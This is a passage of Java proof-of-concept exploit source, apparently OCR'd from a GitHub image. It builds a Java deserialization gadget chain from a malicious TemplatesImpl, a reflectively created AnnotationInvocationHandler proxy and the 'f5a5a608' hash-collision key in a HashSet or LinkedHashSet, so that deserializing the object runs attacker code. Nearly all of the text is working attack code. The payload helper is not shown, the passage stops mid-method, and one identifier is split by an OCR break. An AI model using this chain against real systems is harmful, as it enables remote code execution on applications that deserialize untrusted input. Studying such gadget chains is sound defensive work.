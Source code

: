 ```java

    public static void main(String[] args) throws Exception {
        expHashSet();
// expLinkedHashSet();
    }

    public static void expLinkedHashSet() throws Exception {
        TemplatesImpl templates = getEvilTemplatesImpl();

        HashMap map = new HashMap();

        //Create the handler used by the proxy through reflection, and AnnotationInvocationHandler serves as the handler of the dynamic proxy
        Constructor ctor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructors()[0];
        ctor.setAccessible(true);

        InvocationHandler tempHandler = (InvocationHandler) ctor.newInstance(Templates.class, map);

        // Create a dynamic proxy, use tempHandler to proxy the Templates interface, and AnnotationInvocationHandler's invoke proxy the Templates interface two methods newTransformer() and getOutputProperties()
        Templates proxy = (Templates) Proxy.newProxyInstance(Poc.class.getClassLoader(), templates.getClass().getInterfaces(), tempHandler);

        LinkedHashSet set = new LinkedHashSet();
        set.add(templates);
        set.add(proxy);
        map.put("f5a5a608", templates);

        byte[] obj = serialize(set);
        unserialize(obj);
    }


    public static void expHashSet() throws Exception {
        TemplatesImpl templates = getEvilTemp
latesImpl();

        HashMap map = new HashMap();
        map.put("f5a5a608", new int[]{-16});

        //Create the handler used by the proxy through reflection, and AnnotationInvocationHandler serves as the handler of the dynamic proxy
        Constructor ctor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructors()[0];
        ctor.setAccessible(true);

        InvocationHandler tempHandler = (InvocationHandler) ctor.newInstance(Templates.class, map);

        // Create a dynamic proxy, use tempHandler to proxy the Templates interface, and AnnotationInvocationHandler's invoke proxy the Templates interface two methods newTransformer() and getOutputProperties()
        Templates proxy = (Templates) Proxy.newProxyInstance(Poc.class.getClassLoader(), templates.getClass().getInterfaces(), tempHandler);

        HashSet set = new HashSet();
        set.add(proxy);
        set.add(templates);
        map.put("f5a5a608", templates);

        byte[] obj = serialize(set);
        unserialize(obj);
```